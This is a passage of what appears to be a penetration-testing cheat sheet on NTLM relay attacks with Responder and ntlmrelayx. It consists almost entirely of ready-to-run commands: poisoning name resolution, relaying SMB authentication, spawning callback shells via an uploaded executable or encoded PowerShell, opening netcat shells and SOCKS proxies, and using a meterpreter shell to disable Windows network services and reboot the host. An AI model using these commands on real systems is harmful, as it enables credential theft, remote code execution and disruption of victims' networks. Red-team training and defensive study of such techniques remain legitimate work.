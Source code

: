 `$ sudo ntlmrelayx -t smb://<target_IP> -smb2support -socks`

`$ nc 127.0.0.1 <PORT>`

### 1.3 - Use Cases

#### 1.3.1 - Callback Shell

- **Modify in the Responder configuration file**

`$ sudo nano /etc/responder/Responder.conf`

---

```
SMB=OFF
HTTP=OFF
```

- **Start the Responder**

`$ sudo responder -I <interface> -rdw`

Spawn callback shell

`$ sudo ntlmrelayx -t smb://<target_IP> -smb2support -e shell.exe`

`$ sudo ntlmrelayx -t smb://<target_IP> -smb2support -c "powershell.exe -E <base64_encoded>"`

Interactive shell with netcat

`$ sudo ntlmrelayx -t smb://<target_IP> -smb2support -i`

`$ nc 127.0.0.1 <PORT>`

#### 1.3.2 - Proxychains via Relaying

##### 1.3.2.1 - Hijack Host and Setup MITM

- **Disable SMB to spoof the targets via proxychains**

```
$ sudo ntlmrelayx -t smb://<target_IP> -smb2support -socks

meterpreter > shell

C:\> sc stop netlogon

C:\> sc stop lanmanserver

C:\> sc config lanmanserver start=disabled

C:\> sc stop lanmanworkstation

C:\> sc config lanmanworkstation start=disabled

C:\> shutdown /r

C:\> exit
```
